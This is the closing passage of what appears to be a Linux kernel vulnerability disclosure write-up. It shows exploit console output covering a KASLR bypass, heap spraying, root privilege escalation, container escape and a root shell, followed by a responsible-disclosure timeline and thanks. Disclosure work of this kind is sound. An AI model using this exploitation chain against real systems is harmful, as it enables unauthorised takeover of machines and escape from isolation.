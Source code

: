```
[+] STAGE 3: KASLR bypass
[*] Freeing fake secondary messages...
[*] Spraying fake secondary messages...
[*] Freeing sk_buff data buffer...
[*] Spraying pipe_buffer objects...
[*] Leaking and freeing pipe_buffer object...
[+] anon_pipe_buf_ops: ffffffffa1e78380
[+] kbase_addr: ffffffffa0e00000

[+] STAGE 4: Kernel code execution
[*] Spraying fake pipe_buffer objects...
[*] Releasing pipe_buffer objects...
[*] Checking for root...
[+] Root privileges gained.

[+] STAGE 5: Post-exploitation
[*] Escaping container...
[*] Cleaning up...
[*] Popping root shell...
root@theflow:/# id
uid=0(root) gid=0(root) groups=0(root)
root@theflow:/#


```

Timeline[](#timeline)
---------------------

2021-04-06 - Vulnerability reported to security@kernel.org.  
2021-04-13 - Patch merged upstream.  
2021-07-07 - Public disclosure.

Thanks[](#thanks)
-----------------

Eduardo Vela  
Francis Perron  
Jann Horn